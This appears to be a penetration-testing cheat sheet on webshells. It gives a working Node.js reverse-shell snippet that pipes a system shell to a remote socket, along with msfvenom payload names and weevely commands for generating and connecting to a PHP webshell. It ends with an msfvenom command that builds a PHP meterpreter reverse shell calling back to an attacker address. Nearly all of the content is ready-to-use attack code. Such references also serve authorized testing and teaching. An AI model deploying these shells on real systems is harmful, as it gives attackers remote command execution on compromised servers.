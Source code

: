 # Webshells

## Javascript

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn((process.platform.contains('win')?'cmd.exe':'/bin/sh'),[]);
    var client = new net.Socket();
    client.connect(8080, "127.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the node.js application from crashing
})();
```

Source: [https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/](https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/)  
Source: [https://github.com/evilpacket/node-shells/blob/master/node\_revshell.js](https://github.com/evilpacket/node-shells/blob/master/node_revshell.js)

We can also use [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) to generate encoded reverse shells.

### msfvenom

```
nodejs/shell_bind_tcp
nodejs/shell_reverse_tcp
nodejs/shell_reverse_tcp_ssl
```

## PHP

These are the most common types of shells we'll be turning to, as like it or not, PHP is probably the most common type of web server application.

### weevely

Using weevely we can create php webshells:

```
weevely generate password /root/webshell.php
```

Now we execute it, point it to the remote page and get a shell in return:

```
weevely "http://192.168.1.101/webshell.php" password
```

### msfvenom

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.php
```



